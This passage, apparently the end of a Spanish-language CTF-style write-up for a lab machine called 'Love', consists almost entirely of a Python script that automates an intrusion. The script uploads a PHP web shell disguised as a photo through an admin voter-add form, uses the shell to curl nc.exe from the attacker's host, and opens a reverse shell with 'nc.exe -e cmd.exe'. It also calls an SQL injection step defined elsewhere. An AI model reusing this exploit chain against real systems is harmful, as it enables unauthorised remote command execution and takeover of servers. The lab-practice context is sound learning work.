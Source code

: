 ```python
def uploadshell():

    payload = """  <?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?> """ 

    files  = {'photo':('shell.php',payload)

        }

    post_data = {
            'firstname' :' lorem',
            'lastname':'lorem',
            'password':'lorem',
            'add':''
        }

    LoveVote= f'{LoveIP}/admin/voters_add.php'

    r = s.post(LoveVote, data= post_data,files=files)

    if r.status_code == 200:
            print("[+] Subida de shell existosa\n")
    else:
            print("[!] Subida de shell fallida\n")
            exit(1)


def uploadNC():
    ip = f'{LoveIP}/images/shell.php?cmd=curl {ipHost}/nc.exe -O nc.exe'
    r = s.get(ip)

def conection():
    print('\t\n\n[+] Completando proceso, revise netcat\n')
    ip = f'{LoveIP}/images/shell.php?cmd=nc.exe -e cmd.exe {ipHost} {ipPort}'
    r = s.get(ip)


if __name__ == '__main__':
    print(f'\n[+] Recuerda estar esperando conexión en netcat en el puerto {sys.argv[2]}\n\n')
    sleep(2)
    getNetcat()
    sqli()
    uploadshell()
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as so:
            so.bind(('localhost', 80))
            http_server = subprocess.Popen(["python3", "-m", "http.server", "80"])
    except OSError:
            print("\n[-] El puerto 80 se encuentra en uso, no se ha podido ejectuar el servidor")
   
    uploadNC()
    http_server.terminate()
    conection()
```    

¡Listo! terminamos la automatización de la intrusión.

Nos vemos, hasta la próxima.
